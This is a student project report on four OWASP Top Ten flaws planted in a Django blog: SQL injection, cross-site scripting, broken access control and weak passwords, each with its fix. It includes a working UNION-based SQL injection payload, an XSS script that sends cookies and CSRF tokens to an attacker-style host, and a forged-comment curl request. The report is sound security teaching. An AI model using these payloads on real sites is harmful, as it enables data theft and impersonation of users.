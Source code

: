#+author: Juho Hautala
#+title: Project I Report - Security flaws from OWASP Top Ten list

* Security flaws from OWASP Top Ten 2017

This essay uses the OWASP Top Ten 2017 list: https://owasp.org/www-project-top-ten/2017.

LINK: https://github.com/vastus/cybsec21-project1

FLAW 1:
https://github.com/vastus/cybsec21-project1/blob/609cd90364be41e2b3df20bd72335be239bb46ae/project1/blog/views.py#L29

** Flaw 1: A1:2017-Injection

The first flaw shows a SQL injection vulnerability.

The app in question is a blog. The different roles of users of the blog can be an admin, author, user, or guest. Guest is the only unauthenticated role meaning that guests do not or are not signed in to the web application.

For this flaw it doesn't matter if the user is authenticated or not. The injection flaw is vulnerable through the search functionality of the application. The search functionality can be accessed from any page of the app.

The flaw can be triggered for example in the following way:

1. go to the home page of the app
2. paste the following as the search query

```
%' and false union select 1337,email,1337,1337 from blog_user --
```

This will query the user table for the application and expose all the email addresses for each registered account. Changing the column name to any other column in the user table will expose its values. The SQL injection described in this flaw doesn't allow the execution of multiple statements but this vulnerability is a serious weakness since it can be used to expose all the data stored in the database.

See https://owasp.org/Top10/A03_2021-Injection/ for more
https://owasp.org/www-project-top-ten/2017/A1_2017-Injection.html

** Flaw 1: Fixing the SQL injection

Instead of using raw SQL to perform the search one should use an ORM or escape the input used for the searching. Since this app is made with Django, the ORM should be used.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/blob/7355ba0c02171a1833733d8dfd6e1706be61d637/project1/blog/views.py#L25.

FLAW 2:
https://github.com/vastus/cybsec21-project1/blob/0d6dd7cf68128481a71d8fe1c617648ea5e75d03/project1/blog/templates/blog/posts/show.html#L68

** Flaw 2: A7:2017-Cross-Site Scripting (XSS)

The blog allows registered users to comment on posts. The comment form includes a hidden input field that's named `current_user_id` which the application uses to figure out who's the commenter. An attacker could alter the value of this field to impose commenting as someone else.

It's possible to inject <script> tags to the comment since the developers of the blog wanted to allow users to input their own markdown or styles to the comments but without further inspection this of course allows XSS attacks as well.

An attack might occur when after the attacker has registered and logged in to the site and they visit a post and comment on the post with the following comment body:

```
Interesting read...

<script>
const csrfmiddlewaretoken = document.querySelector('input[name=csrfmiddlewaretoken]').value;
const data = {cookie: document.cookie, csrfmiddlewaretoken};
fetch('https://h4x.or:1337/csrf-tokens', {method: 'POST', body: JSON.stringify({data})});
</script>
```

Given that the attacker has set up the server where the POST request is sending the CSRF token they can then use the token and another user ID to comment on posts as someone else.

An example request to exploit the vulnerability:

```
curl 'http://blog/posts/1/comments' \
     -X POST -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: csrftoken=$CSRF_TOKEN_FROM_COOKIE_PAYLOAD' \
     --data-raw 'csrfmiddlewaretoken=$CSRF_MIDDLEWARE_TOKEN_FROM_PAYLOAD&comment_user_id=1&comment_body=holup'
```

** Flaw 2: Fixing the XSS weakness

First of all the application should figure out the current user from the session instead of getting it from the hidden input field. All user input should be considered unsafe. The way that the comment body is rendered needs to be changed from safe to unsafe, so that the browser doesn't interpret the HTML tags (e.g. <script>).

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/c2e0b18a1357461d6224466c1196e1a4ad9e8438

FLAW 3:
https://github.com/vastus/cybsec21-project1/blob/4db57645b870df1ff1c2bcc6cf4ca8f53f6668f2/project1/blog/views.py#L87

** Flaw 3: A5:2017-Broken Access Control

It's easy to forget to correctly control the access within different parts of an application. The blog allows users to profiles (/profile/<user_id>). If the current user is viewing their own profile and they're signed in they can change their email address if they so wish. The developers of the blog coded the feature to fetch the updated user record by the user ID that's provided in the URL. This of course is an obvious case of broken access control where any logged in user may change other users information. An attacker might change admin's email address for example and request a new password which would then allow them to log in as the admin user.

** Flaw 3: Fixing the broken access control

To fix this vulnerability we should only allow changes to the current user's profile and not to anyone else's. Instead of updating the user record (identified by the user ID from the URL) we should check that the profile that is updated is only in the scope of the currently signed in user that's identified from the session.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/f0c639aeca1988f694f0cfa98fa60d1923a4173e

FLAW 4:
https://github.com/vastus/cybsec21-project1/blob/4db57645b870df1ff1c2bcc6cf4ca8f53f6668f2/project1/blog/models.py#L54

** Flaw 4: A2_2017-Broken_Authentication.html

This flaw showcases broken authentication in terms of password strength. There are many examples where test credentials have been left on production instances, applications allow registration with weak passwords e.g. too short passwords or passwords that are too common that are vulnerable to dictionary attacks. Deciding on what are the characteristics of a strong password and still keep the password choosing somewhat user friendly is hard which is why usually using a password manager is recommended.

Allowing weak passwords leaves the application vulnerable for authentication attacks that attackers can use to gain access to unwanted systems or attackers practicing identity theft.

** Flaw 4: Fixing broken authentication

The fix shown in the commit is far from perfect but it is clearly better than not checking for password weaknesses at all. The blog's registration process now checks a few properties of the password provided to the register procedure: the length has to be at least 12 characters, there has to be enough variance in the used character set that the password is made of, and the password is compared against 10k common passwords. This is by no means an exhaustive list of steps ensuring the provided password isn't weak but it's a good start. Checking the password for weaknesses, as it is implemented in the app, is not too performant either but this essay focuses on security and not on performance thus that aspect of the procedure will be considered out of scope.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/commit/b08a723eedacd9ded2ae4b017943724b97527b72
